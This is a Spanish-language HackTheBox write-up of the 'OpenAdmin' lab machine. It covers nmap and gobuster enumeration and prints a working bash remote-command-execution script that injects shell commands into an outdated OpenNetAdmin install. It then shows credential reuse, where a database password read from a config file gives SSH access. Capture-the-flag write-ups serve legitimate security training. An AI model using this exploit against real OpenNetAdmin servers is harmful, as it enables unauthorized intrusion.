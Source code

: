 ```yaml
---
layout: post
title: "OpenAdmin"
subtitle: 'HackTheBox - Easy Machine - Linux'
date: 2020-03-13 12:00:00
author: "TheusZero"
header-img: "images/post/OpenAdmin/OpenAdmin.png"
catalog: true
comments: true
tags:
  - Linux
  - Machine
  - Explotations
  - Upgrade
  - Shell
  - Root
  - User
---
```


# OpenAdmin

## Enumeracion

#### NMAP

```vim
┌─[zero@parrot]─[~/HTB/Machines/OpenAdmin]
└──╼ $nmap -sC -sV 10.10.10.171 -o nmap.txt
Starting Nmap 7.80 ( https://nmap.org ) at 2020-03-13 19:32 EDT
Nmap scan report for 10.10.10.171
Host is up (0.35s latency).
Not shown: 997 closed ports
PORT    STATE    SERVICE        VERSION
22/tcp  open     ssh            OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 4b:98:df:85:d1:7e:f0:3d:da:48:cd:bc:92:00:b7:54 (RSA)
|_  256 dc:ad:ca:3c:11:31:5b:6f:e6:a4:89:34:7c:9b:e5:50 (ED25519)
80/tcp  open     http           Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
777/tcp filtered multiling-http
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 123.88 seconds
```

#### HTML  

parece ser una pagina de apache comun, asi que mandaremos un burpsuite y un gobuster a ver que podemos encontrar lo sgte:

![](/TheusZero/images/post/OpenAdmin/OpenAdmin1.png)

> gobuster dir -u "http://10.10.10.171/" -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -o dgobuster.txt
>> /music (Status: 301)
>
>> /artwork (Status: 301)
>
>> /sierra (Status: 301)

al entrar a la primera, nos encontramos con uan pag bastante particular y bonita, probe altiro en la parte del login y me mando a una pag llamada ona, donde se puede ver que esta en uan version desactualizada asi que supongo que podria haber algun exploit o algo por internet.

![](/TheusZero/images/post/OpenAdmin/OpenAdmin2.png)

![](/TheusZero/images/post/OpenAdmin/OpenAdmin3.png)

![](/TheusZero/images/post/OpenAdmin/OpenAdmin4.png)

claramente, hay un exploit para esa version, sin embargo no la saque de esa pag, probe con otra, dejo aqui el exploit

#### www-data

> Name.sh

```vim
#!/bin/bash

URL="${1}"
while true;do
 echo -n "$ "; read cmd
 curl --silent -d "xajax=window_submit&xajaxr=1574117726710&xajaxargs[]=tooltips&xajaxargs[]=ip%3D%3E;echo \"BEGIN\";${cmd};echo \"END\"&xajaxargs[]=ping" "${URL}" | sed -n -e '/BEGIN/,/END/ p' | tail -n +2 | head -n -1
done
```vim

> sh rce.sh http://10.10.10.171/ona/

listo, entre con una shell www-data

## Explotacion

lo primero que hice fue upgradear la shell, quedo la caga asi que no funciono.
con la shell no se podia hacer muxo, asi que luego de rebuscar un buen rato y preguntar a compares en HTB y el foro, logre encontrar un archivo bastante particular, obteniendo lo siguiente:

```vim
cat /opt/ona/www/local/config/database_settings.inc.php  

<?php

$ona_contexts=array (
  'DEFAULT' => 
  array (
    'databases' => 
    array (
      0 => 
      array (
        'db_type' => 'mysqli',
        'db_host' => 'localhost',
        'db_login' => 'ona_sys',
        'db_passwd' => 'n1nj4W4rri0R!',
        'db_database' => 'ona_default',
        'db_debug' => false,
      ),
    ),
    'description' => 'Default data context',
    'context_color' => '#D3DBFF',
  ),
);
```

> n1nj4W4rri0R!

se nota altiro que no necesita desifrarce, sin embargo no se donde habia que introducir esa passwoord, asi que enumere los usuarios obteniendo 2 principales:

>joanna

>jimmy

asi que me dispuse a probar con el ssh, para ver si obtenia suerte.

probe primero con joanna, pero nada (creo que no le gustaban los ninjas...)
pero con jimmy funciono de pana, asi que con el podemos leer el user.txt y proseguir con el escalado de privilegios.

